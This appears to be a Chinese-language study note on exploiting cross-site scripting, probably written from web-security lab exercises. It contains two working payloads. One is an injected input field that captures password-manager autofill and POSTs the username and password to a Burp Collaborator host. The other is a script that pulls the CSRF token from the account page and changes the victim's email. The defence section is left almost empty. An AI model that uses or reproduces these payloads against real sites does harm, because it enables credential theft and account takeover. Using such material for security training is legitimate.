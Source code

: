 结合使用burp的collaborator模块使用





## 获取密码

读取密码管理器中存储的用户名和密码

局限性：

- 仅适用于拥有密码自动填充的密码管理器
- 也可以通过网络钓鱼的方式来获取密码

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```





## 结合csrf攻击

XSS漏洞-->可以任意执行一段代码，只要是利用js可以实现的代码都可以

CSRF-->服务端对动作执行的来源没有经过严谨的验证，也就是不确定是用户真实已知的操作

这里虽然利用页面中的token来防止csrf，但利用js的request对应页面，然后提取其中的token作为参数即可

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```



# 3.如何防御以及如何绕过
1. 对所有输入进行过滤

   1. 
2. 对所有输出进行编码
